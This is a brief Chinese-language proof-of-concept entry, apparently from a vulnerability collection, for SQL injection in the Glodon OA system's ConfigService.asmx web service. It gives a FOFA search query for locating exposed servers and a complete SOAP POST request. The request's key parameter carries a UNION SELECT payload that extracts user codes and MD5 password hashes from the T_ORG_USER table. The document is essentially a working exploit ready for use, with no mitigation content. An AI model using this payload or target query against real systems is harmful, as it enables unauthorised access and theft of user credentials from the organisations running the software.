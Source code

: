 # 广联达OA系统接口ConfigService.asmx存在SQL注入漏洞

广联达OA系统接口 `/Webservice/IM/Config/ConfigService.asmx` 存在SQL注入漏洞。

## fofa

```yaml
header="Services/Identification/login.ashx" || banner="Services/Identification/login.ashx"
```

## poc

```xml
POST /Webservice/IM/Config/ConfigService.asmx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/123.0.6312.88 Safari/537.36
Content-Type: text/xml;charset=UTF-8

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<GetIMDictionary xmlns="http://tempuri.org/">
<key>1' UNION ALL SELECT top 1812 concat(F_CODE,':',F_PWD_MD5) from
T_ORG_USER --</key>
</GetIMDictionary>
</soap:Body>
</soap:Envelope>
```

